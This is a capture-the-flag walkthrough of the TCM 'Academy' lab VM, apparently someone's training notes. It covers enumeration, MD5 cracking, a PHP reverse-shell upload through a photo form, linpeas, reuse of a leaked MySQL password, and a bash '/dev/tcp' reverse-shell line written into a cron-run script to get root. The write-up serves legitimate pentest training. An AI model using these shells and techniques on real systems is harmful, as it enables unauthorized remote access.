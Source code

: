 # Academy Walkthrough

## Enumeration
Login to the Academy VM with the credentials `root:tcm`and run `dhclient`. Run it again to confirm that the "file exists".
List out the IP address for this VM with `ip a`
![[IPv4 of Academy.png]]
Our nmap scan; remember to `export IP=<ip-address>`:
```bash
nmap -A -p -T4 $IP -oA $IP-academy-scan
```

![[nmap scan of Academy.png]]

We see that `ftp`, `ssh`, and an Apache web server that are all open.
Let's see what `ftp` has
![[Logging in to ftp as anonymous.png]]

`cat note.txt` and we have a password hash:
![[Obtaining password hash.png]]

Using `hashidentifier`, try to find out what type of hash it is.
![[hashidentifier reveals hash is MD5.png]]

It tells us that it is an MD5 hash so go out to Google and search how to crack the hash. Search terms should be like: "hashcat crack md5 hash" and open the first link: https://www.4armed.com/blog/hashcat-crack-md5-hashes/
`hashcat` is installed on Kali by default so save the hash like so:
`echo 'cd73502828457d15655bbd7a63fb0bc8' > hashes.txt`
```bash
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
```
After running that command, you should see it cracked.![[Password hash cracked.png]]
We see that the password was "student".

## Directory Bruteforcing
Now time to figure out what directories are available to us.
With `dirb` we can try to search through a default list like so:
```bash
dirb http://$IP
```
and also with `ffuf`(not installed by default so `sudo apt install ffuf`) we can "fuzz" for directories (Make sure to replace the IP address with your own target IP):
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.122.53/FUZZ
```
We see that the directory "academy" so let's go check it out:
![[academy directory found after fuzzing.png]]
We need a Reg no and the password so go back to the note and copy the reg no from there. Use these credentials: `10201321:student`

We arrive to a "STUDENT CHANGE PASSWORD" tab but what is more interesting is the "/academy/my-profile.php" tab. There a section where we can upload an image. Click on `Browse...` and browse to an image you have (or search for one online). Click on `Update` and the page should refresh. Right click on the image and select `Open Image in New Tab` or `Copy Image Link`. We now know where the images will be saved at: http://IP-ADDRESS/academy/studentphoto/sudoheader.png

Since we know that the app uses PHP to upload the image, we will need a php reverse shell so that we can get code execution on the server. Search on Google for "php reverse shell" and you should find from the first hit on GitHub: https://github.com/pentestmonkey/php-reverse-shell

Copy or download `php-reverse-shell.php` in your directory of choice using `wget` like so. You can grab that link by clicking on the "Raw" button and copying the link. We'll save it as `shell.php` using `-O` shown below:
```bash
wget 'https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php' -O shell.php
```
Using `vim`, `nano`, `mousepad`, or any editor of choice, change `$ip` to your attack box IP. You can check your IP using `ip a` and looking at your `inet` address. You can also leave `$port` alone.

Now on the attack box, run: `nc -lvnp 1234` or whatever port you have saved in the `shell.php` and go back to the "Upload New Photo" section and browse to where you have saved `shell.php`. Upon clicking on `Update`, the page will hang and going back to our listener, we can see that we have a shell. Strangely enough, we can't use `sudo`:
![[sudo not found.png]]
`cd /tmp`: change directory into tmp and start our web server from the home directory on our attack machine like so:
```bash
python3 -m http.server 80
```
Back to our shell, download the file using `wget`:
![[Downloading linpeas.sh onto Academy.png]]

`chmod +x linpeas.sh` and run with
`./linpeas.sh`
Look for anything in YELLOW/RED or RED, these are going to be important on any pentest. We found something at `/home/grimmie/backup.sh`:
![[backup.sh.png]]

Linpeas also found this, which might be interesting later on:
![[MySQL password leaked.png]]

`$mysql_password = "My_V3ryS3cur3_P4ss";` 
```bash
cat /var/www/html/academy/includes/config.php
```

![[Standard output of config.php.png]]

`grimmie`: has administrator access??
![[grimmie as administrator.png]]

Let's try to login with `ssh` using grimmie's password
```bash
ssh grimmie@192.168.122.53
```

enter "yes" to accept and enter the password "My_V3ryS3cur3_P4ss"
![[Standard output of backup.sh.png]]

Trying out some commands don't reveal anything useful
![[Commands that did not work.png]]

So go out to Google and search for "pspy" where the first link will be a GitHub repo: https://github.com/DominicBreuker/pspy
We want the "64 bit, static version" called `pspy64` so click on it to download and move it to our home or whatever folder we are using to transfer to Academy VM (`transfers`folder in our case).
![[Downloading pspy64 onto Academy.png]]

`backup.sh` is running every minute as can be shown after executing `./pspy64`, you just have to wait to see it.
![[Confirmed that backup.sh is running.png]]

Go back to where `backup.sh` is located in `/home/grimmie` and search on Google for
"bash reverse shell one liner". The first link is what we are looking for: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
Copy/paste the first command we see 
`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1` we will modify it a bit for our use case by replacing the `10.0.0.1` part to our attack IP and the port part to something like `8081`.
Start a reverse shell listener on our attack box:
```bash
nc -lvnp 8081
```

and on the ssh shell, we will need to modify `backup.sh` like so:
![[Modified backup.sh.png]]
```bash
#!/bin/bash

bash -i >& /dev/tcp/192.168.122.31/8081 0>&1
```

Wait a minute while the `backup.sh` executes and back on the listener, we have our flag.
![[We have root.png]]

Done.